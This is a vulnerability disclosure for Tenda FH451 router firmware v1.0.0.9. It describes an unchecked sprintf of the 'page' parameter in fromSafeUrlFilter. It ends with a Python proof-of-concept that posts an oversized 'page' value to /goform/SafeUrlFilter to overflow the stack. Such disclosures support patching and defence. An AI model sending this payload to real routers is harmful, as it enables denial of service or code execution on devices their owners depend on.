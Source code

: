# Tenda FH451 fromSafeUrlFilter_page
### Overview
vendor: Tenda

product: FH451

version: v1.0.0.9

type: Stack Overflow
### Vulnerability Description
Tenda FH451 v1.0.0.9 were discovered to contain a stack overflow via the page parameter in the fromSafeUrlFilter function.

### Vulnerability details
In function fromSafeUrlFilter line 48, it reads in a user-provided parameter `page`. The variable `v10` is passed to the `sprintf` function without any length check, which may overflow the stack-based buffer `s`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/4.png)

### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/SafeUrlFilter"

data = {
    "menufacturer": "a",
    "page": "a" * 1000,
}

response = requests.post(url, data=data)
print(response.text)
```